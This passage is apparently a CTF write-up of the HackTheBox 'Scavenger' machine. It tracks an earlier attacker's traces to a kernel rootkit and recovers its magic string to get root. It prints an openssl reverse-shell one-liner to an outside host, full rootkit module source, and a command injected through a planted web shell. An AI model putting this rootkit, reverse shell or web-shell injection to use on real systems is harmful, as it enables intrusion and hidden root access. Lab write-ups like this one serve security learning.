Connecting to 10.0.2.19:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 154 [application/octet-stream]
Saving to: 'Makefile'

     0K                                                       100% 19.0M=0s

2018-12-10 21:53:00 (19.0 MB/s) - 'Makefile' saved [154/154]

wget 10.0.2.19/root.c
--2018-12-10 21:53:20--  http://10.0.2.19/root.c
Connecting to 10.0.2.19:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3094 (3.0K) [text/plain]
Saving to: 'root.c'

     0K ...                                                   100%  318M=0s

2018-12-10 21:53:20 (318 MB/s) - 'root.c' saved [3094/3094]

mkfifo /tmp/rH7dQR; /bin/bash -i 2>&1 < /tmp/rH7dQR | openssl s_client -quiet -connect 10.0.2.19:4445 > /tmp/rH7dQR; rm /tmp/rH7dQR
depth=0 C = AU, ST = Some-State, O = Internet Widgits Pty Ltd
verify error:num=18:self signed certificate
verify return:1
depth=0 C = AU, ST = Some-State, O = Internet Widgits Pty Ltd
verify return:1



Basically, the attacker downloaded some files and then upgraded his shell to a SSL-encrypted one. After some searching, I was able to locate the source code of root.c:


#include <linux/init.h>   
#include <linux/module.h> 
#include <linux/kernel.h>
#include <linux/device.h>
#include <linux/fs.h>    
#include <asm/uaccess.h>
#include <linux/slab.h>
#include <linux/syscalls.h>
#include <linux/types.h>
#include <linux/cdev.h>
#include <linux/cred.h>
#include <linux/version.h>

#define  DEVICE_NAME "ttyR0" 
#define  CLASS_NAME  "ttyR"

#if LINUX_VERSION_CODE > KERNEL_VERSION(3,4,0)
#define V(x) x.val
#else
#define V(x) x
#endif

// Prototypes
static int     __init root_init(void);
static void    __exit root_exit(void);
static int     root_open  (struct inode *inode, struct file *f);
static ssize_t root_read  (struct file *f, char *buf, size_t len, loff_t *off);
static ssize_t root_write (struct file *f, const char __user *buf, size_t len, loff_t *off);

// Module info
MODULE_LICENSE("GPL"); 
MODULE_AUTHOR("pico");
MODULE_DESCRIPTION("Got r00t!."); 
MODULE_VERSION("0.1"); 

static int            majorNumber; 
static struct class*  rootcharClass  = NULL;
static struct device* rootcharDevice = NULL;

static struct file_operations fops =
{
  .owner = THIS_MODULE,
  .open = root_open,
  .read = root_read,
  .write = root_write,
};

static int
root_open (struct inode *inode, struct file *f)
{
   return 0;
}

static ssize_t
root_read (struct file *f, char *buf, size_t len, loff_t *off)
{
  return len;
}

static ssize_t
root_write (struct file *f, const char __user *buf, size_t len, loff_t *off)
{ 
  char   *data;
  char   magic[] = "g0tR0ot";

  struct cred *new_cred;
  
  data = (char *) kmalloc (len + 1, GFP_KERNEL);
    
  if (data)
    {
      copy_from_user (data, buf, len);
        if (memcmp(data, magic, 7) == 0)
	  {
	    if ((new_cred = prepare_creds ()) == NULL)
	      {
		return 0;
	      }
	    V(new_cred->uid) = V(new_cred->gid) =  0;
	    V(new_cred->euid) = V(new_cred->egid) = 0;
	    V(new_cred->suid) = V(new_cred->sgid) = 0;
	    V(new_cred->fsuid) = V(new_cred->fsgid) = 0;
	    commit_creds (new_cred);
	  }
        kfree(data);
      }
    
    return len;
}

static int __init
root_init(void)
{
  // Create char device
  if ((majorNumber = register_chrdev(0, DEVICE_NAME, &fops)) < 0)
    {
      return majorNumber;
    }
 
   // Register the device class
   rootcharClass = class_create(THIS_MODULE, CLASS_NAME);
   if (IS_ERR(rootcharClass))
     {
       unregister_chrdev(majorNumber, DEVICE_NAME);
       return PTR_ERR(rootcharClass); 
   }
 
   // Register the device driver
   rootcharDevice = device_create(rootcharClass, NULL,
				  MKDEV(majorNumber, 0), NULL, DEVICE_NAME);
   if (IS_ERR(rootcharDevice))
     {
       class_destroy(rootcharClass);
       unregister_chrdev(majorNumber, DEVICE_NAME);
       return PTR_ERR(rootcharDevice);
     }

    return 0;    
}

static void __exit
root_exit(void) 
{
  // Destroy the device
  device_destroy(rootcharClass, MKDEV(majorNumber, 0));
  class_unregister(rootcharClass);                     
  class_destroy(rootcharClass);                        
  unregister_chrdev(majorNumber, DEVICE_NAME);     
}

module_init(root_init);
module_exit(root_exit);



The source code was clearly copied from [this site](https://0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485). Basically, any process that would write a magic string to /dev/ttyR0 would get root privileges. However, the default string wouldn;t work, because the attacker probably changed the magic string to something else (I called it magic string because that;s how the author of the code named it; it doesn;t have anything to do with unicorns). 

I knew that I needed to get the .ko file or the modified source code in order to find the modified magic string, however, I had a very hard time doing that, mainly because I used shell.php to try and locate it. As it turned out, the file was hidden inside ib01c01;s files:


root@fury-battlestation:~/htb/blog/scavenger# ftp scavenger.htb
Connected to scavenger.htb.
220 (vsFTPd 3.0.3)
Name (scavenger.htb:root): ib01c01
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwx------    4 1001     1004         4096 Feb 01  2019 .
drwxr-xr-x    8 0        0            4096 Dec 07  2018 ..
drwxr-xr-x    2 1001     1004         4096 Feb 02  2019 ...
-rw-------    1 0        0               0 Dec 11  2018 .bash_history
-rw-------    1 1001     1004           32 Jan 30  2019 access.txt
-rw-r--r--    1 1001     1004     68175351 Dec 07  2018 prestashop_1.7.4.4.zip
-rw-r-----    1 0        1004           33 Dec 07  2018 user.txt
drwxr-xr-x   26 1001     1004         4096 Dec 10  2018 www
226 Directory send OK.
ftp>



Did you see it? Read the folders again, this time more carefully. Still didn;t see it? Well, me neither. However, after reading that list a lot of times, I finally realised that ... is a user-created directory:


ftp> cd ...
250 Directory successfully changed.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1004         4096 Feb 02  2019 .
drwx------    4 1001     1004         4096 Feb 01  2019 ..
-rw-r--r--    1 0        0          399400 Feb 02  2019 root.ko
226 Directory send OK.
ftp> 



## Getting root.txt

After downloading root.ko, I opened it in ghidra and read the root_write function, which compared the data written to the character device with the magic string. You can find below a snippet of the code:


/* WARNING: Could not reconcile some variable overlaps */

ssize_t root_write(file *f,char *buf,size_t len,loff_t *off)

{
  long lVar1;
  int iVar2;
  void *__s1;
  long lVar3;
  ulong uVar4;
  ulong extraout_RDX;
  long in_GS_OFFSET;
  char a [4];
  char b [5];
  char magic [8];
  
  __fentry__();
  lVar1 = *(long *)(in_GS_OFFSET + 0x28);
  a = 0x743367;
  b._0_4_ = 0x76317250;
  magic = 0x746f3052743067;
  b[4] = 0;
  __s1 = (void *)__kmalloc(extraout_RDX + 1,0x24000c0);
  if (__s1 == (void *)0x0) {
    printk(&DAT_00100358);
    uVar4 = extraout_RDX;
  }
  else {
    __check_object_size(__s1,extraout_RDX,0);
    _copy_from_user(__s1,buf,extraout_RDX & 0xffffffff);
    snprintf(magic,8,"%s%s",a,b);
    iVar2 = memcmp(__s1,magic,7);
    if (iVar2 == 0) {
      lVar3 = prepare_creds();
      if (lVar3 == 0) {
        printk("ttyRK: Cannot prepare credentials\n");
        uVar4 = 0;
        goto LAB_001000b9;
      }
      printk("ttyRK: You got it.\n");



Basically, the magic variable (which holds the magic string, duh) starts with the value 'to0Rt0g', which is g0tR0ot read backwards. However, before the comparison, it is modified to the concatenation of a and b. If a represents 't3g' and b 'v1rP', the concatenation would be 'g3tPr1v' (don't forget to read a and b backwards!). I used shell.php to execute the command that would elevate my shell's privilege:


root@fury-battlestation:~/htb/blog/scavenger# curl "http://sec03.rentahacker.htb/shell.php?hidden=echo%20g3tPr1v%20%3E%20/dev/ttyR0;%20id"
uid=0(root) gid=0(root) groups=0(root),1004(customers)
root@fury-battlestation:~/htb/blog/scavenger#



For those of you who don;t want to urldecode online, I just executed ;echo g3tPr1v > /dev/ttyR0; id;

The root flag starts with '4a' 😉

If you liked this post and want to support me, please [follow me on Twitter](https://twitter.com/yakuhito) 🙂

Until next time, hack the world.

yakuhito, over.

